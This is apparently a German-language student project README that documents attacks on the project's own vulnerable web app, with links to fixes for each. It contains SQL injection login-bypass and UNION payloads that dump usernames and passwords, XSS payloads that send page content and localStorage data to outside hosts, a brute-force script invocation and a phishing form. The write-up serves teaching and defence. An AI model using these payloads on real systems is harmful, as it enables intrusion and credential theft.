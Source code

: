 # SQL Injections
1. Um einen Hinweis darauf zu erlangen, wie die SQL-Query aussieht, welche für den Login verwendet wird kann man `"` in das login-feld eingeben. Aus dem Error, kann dann die Query entnommen werden.
2. Mit dem erlangten Wissen kann nun der Angriff durchgeführt werden, indem folgendes 
`" OR 1 = 1 # ` in das login-Username feld eingetragen wird. Hierdurch kann man sich einloggen ohne credentials zu nutzen.

### Union Attack 
1. Die verwendete Query, für die Suche, kann herausgefunden werden, indem man `%'` in das suchfeld postet. Man bekommt hier dann eine Fehlermeldung zurück welche einem einen Hinsweis darauf gibt, wie die SQL-Query aussieht die verwendet wird.
2. Für einen "UNION" befehl müssen die Select-Statements derer Ergebnisse zurück gegeben werden sollen, die gleiche Anzahl an Columns haben. Um herauszufinden wie viele columns in dem table (Thread Table) sind der von der Suchfeld-query aufgerufen wird kann folgende query verwendet werden: `%' ORDER BY 4-- `. Die Zahl sollte immer weiter eröht werden, bis ein Error zurück gegeben wird. Sobald das geschieht weiß man dass die verwendete Zahl minus Eins die Anzahl der Columns ist.
3. Weiß man nun also wie viele Columns in dem table enthalten sind kann man die query für die Union-Attack formulieren:
`%' UNION SELECT NULL, NULL, username, passw, NULL FROM Users -- `, wobei die die Anzahl der "NULL" + die Anzahl der gewollten column-names der vorher herausgefundenen Anzahl der Columns entsprechen muss. Das Ergebnis hieraus ist, dass man die normalen Ergebnisse der Such-Query mit dem Select-Statement für den Users Table verbindet um nicht nur die Threads von der Datenbank zurück zu bekommen, sondern eben auch die Ergebnisse aus dem Users Table. In unserem Fall würden wir also auch Ergebnisse aus den "username" und "passw" columns des Users Table zusammen mit den Threads zurück geliefert bekommen.

## Maßnahmen
Escaping and query values:
https://github.com/mysqljs/mysql#escaping-query-values (Placeholders: https://mariadb.com/kb/en/connector-nodejs-promise-api/)


# Cross-Site Scripting
Reflected XSS
Insert <script>alert();</script>
https://www.imperva.com/learn/application-security/reflected-xss-attacks/#:~:text=Reflected%20XSS%20attacks%2C%20also%20known,enables%20execution%20of%20malicious%20scripts.
https://www.youtube.com/watch?v=T0vxdqvW9fU&list=LL&index=3
```js
<script>alert(document.cookie); </script>
<img src="http://url.to.file.which/not.exist" onerror= document.body.innerHTML = "<h1>You got hacked</h1>";>
<IMG SRC=j&#X41vascript:alert('test2')>
<script>new Image().src="https://192.165.159.122/fakepg.php?output="+document.body.innerHTML</script>
<img 
  src="https://jnx.me/img/profile.jpg" 
  style="display:none" 
  onload="fetch('https://enj917gkdfyp.x.pipedream.net/', {method: 'POST', body: localStorage.getItem('account')})"
>
```

## Maßnahmen
https://v2.vuejs.org/v2/guide/security.html#:~:text=The%20most%20fundamental%20security%20rule%20when%20using%20Vue,during%20server-side%20rendering.%20An%20example%20of%20such%20usage%3A

https://www.npmjs.com/package/sanitize-html

# Brute-force attack
Is possible because we do not check how many requests have been sent by one user

To start the brute-force script navigate to the "Attacks" directory and preform the following command:

```
python -m pip install selenium
python brute-force.py -u admin -t http://localhost:8081/loginPage -p passwords.txt
```

## Maßnahmen
Using a rate limiter: https://www.npmjs.com/package/express-rate-limit

# Broken Encryption
Möglich wegen veraltetem Hashalgorythmus (SHA256) und weil kein Salt verwendet wird sind alle hashes deterministisch. Dadurch ist das verwenden eines Rainbowtables möglich.

## Maßnahmen
Using bcrypt for hashing passwords: https://en.wikipedia.org/wiki/Bcrypt

# HTML Injections
(Phishing)
```html
<h3>Please login to proceed</h3>
<form action=http://www.google.com>
Username:<br>
<input type="username" name="username"></br>
Password:<br>
<input type="password" name="password"></br>
<br>
<input type="submit" value="Login"></br>
```

## Maßnahmen
https://www.npmjs.com/package/sanitize-html